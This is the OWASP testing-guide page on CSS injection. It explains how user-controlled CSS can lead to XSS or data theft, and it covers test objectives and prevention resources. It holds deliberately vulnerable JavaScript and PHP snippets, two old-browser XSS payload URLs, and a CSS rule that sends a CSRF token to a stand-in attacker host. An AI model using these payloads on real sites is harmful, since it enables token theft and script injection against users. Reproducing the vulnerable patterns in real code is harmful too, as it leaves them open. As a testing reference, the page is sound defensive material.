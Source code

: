 # Testing for CSS Injection

|ID          |
|------------|
|WSTG-CLNT-05|

## Summary

A CSS Injection vulnerability involves the ability to inject arbitrary CSS code in the context of a trusted web site which is rendered inside a victim's browser. The impact of this type of vulnerability varies based on the supplied CSS payload. It may lead to cross site scripting or data exfiltration.

This vulnerability occurs when the application allows user-supplied CSS to interfere with the application's legitimate style sheets. Injecting code in the CSS context may provide an attacker with the ability to execute JavaScript in certain conditions, or to extract sensitive values using CSS selectors and functions able to generate HTTP requests. Generally, allowing users the ability to customize pages by supplying custom CSS files is a considerable risk.

The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the `location.hash` (source) which reaches the `cssText` function (sink). This particular case may lead to DOM-based XSS in older browser versions; for more information, see the [DOM-based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

The attacker could target the victim by asking them to visit the following URLs:

- `www.victim.com/\#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/\#red;-:expression(alert(URL=1));` (IE 7/8)

The same vulnerability may appear in the case of reflected XSS, for example, in the following PHP code:

```html
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Further attack scenarios involve the ability to extract data through the adoption of pure CSS rules. Such attacks can be conducted through CSS selectors, leading to the exfiltration of data, for example, CSRF tokens.

Here is an example of code that attempts to select an input with a `name` matching `csrf_token` and a `value` beginning with an `a`. By utilizing a brute-force attack to determine the attribute's `value`, it is possible to carry out an attack that sends the value to the attacker's domain, such as by attempting to set a background image on the selected input element.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Other attacks using solicited content such as CSS are highlighted in [Mario Heiderich's talk, "Got Your Nose"](https://www.youtube.com/watch?v=FIQvAaZj_HA) on YouTube.

## Test Objectives

- Identify CSS injection points.
- Assess the impact of the injection.

## How to Test

Code should be analyzed to determine if a user is permitted to inject content in the CSS context. Particularly, the way in which the website returns CSS rules on the basis of the inputs should be inspected.

The following is a basic example:

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

The above code contains a source `location.hash`, controlled by the attacker, that can inject directly in the `style` attribute of an HTML element. As mentioned above, this may lead to different results depending on the browser in use and the supplied payload.

The following pages provide examples of CSS injection vulnerabilities:

- [Password "cracker" via CSS and HTML5](http://html5sec.org/invalid/?length=25)
- [CSS attribute reading](http://eaea.sirdarckcat.net/cssar/v2/)
- [JavaScript based attacks using `CSSStyleDeclaration` with unescaped input](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)

For further OWASP resources on preventing CSS injection, see the [Securing Cascading Style Sheets Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
